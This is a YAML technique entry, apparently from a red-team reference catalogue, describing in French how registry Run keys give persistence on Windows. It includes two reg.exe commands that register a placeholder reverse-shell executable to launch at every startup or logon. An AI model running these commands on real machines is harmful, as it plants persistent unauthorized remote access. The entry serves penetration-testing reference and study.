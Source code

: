 ```yaml
---
description: |
  Il est possible d'obtenir une persistance sur une machine Windows en ajoutant des clés reg qui exécuteront une charge utile arbitraire lors de la connexion ou du démarrage. Les clés ajoutées à la ruche HKLM s'exécuteront au démarrage. Les clés ajoutées à la ruche HKCU s'exécuteront lorsque l'utilisateur correspondant se connectera. L'ajout de clés dans la ruche HKLM nécessite un shell élevé. Quatre clés peuvent être utilisées : Run, RunOnce, RunServices et RunServicesOnce. Par défaut, une clé RunOnce est supprimée après l'exécution de la commande spécifiée. Le chemin d'accès à ces clés est le même pour les ruches HKLM et HKCU.

  Command Reference:

  	Value Name: Persistence

  	RegKey data type: REG_SZ

  	Data: "C:\Path\To\revshell.exe"

  	KeyName: "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"

command: |
   reg.exe add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"

   reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"

items:
  - Shell
OS:
  - Windows
  - Approved-tool
attack_types:
  - Persistence
references:
  - https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/
  - https://www.hackingarticles.in/windows-persistence-using-winlogon/
  - https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg
  - https://docs.microsoft.com/en-us/windows-hardware/drivers/install/runonce-registry-key
---
```

